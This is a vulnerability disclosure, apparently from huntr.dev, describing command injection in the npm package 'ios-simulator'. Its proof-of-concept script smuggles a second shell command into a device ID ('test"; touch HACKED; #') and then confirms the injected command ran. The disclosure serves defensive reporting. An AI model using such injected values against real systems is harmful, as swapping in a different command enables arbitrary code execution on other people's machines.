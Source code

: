 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js

var ios = require("ios-simulator");

ios.prototype.setDeviceId('test"; touch HACKED; #');

ios.prototype.install();
```

2. Check there aren't files called `HACKED`

3. Execute the following commands in another terminal:

```bash

npm i ios-simulator # Install affected module

node poc.js #  Run the PoC

```

4. Recheck the files: now `HACKED` has been created

# References:

- [GitHub Issue](https://github.com/macacajs/ios-simulator/issues/15)
- [Issue Permalink](https://github.com/macacajs/ios-simulator/blob/master/lib/ios-simulator.js#L50)
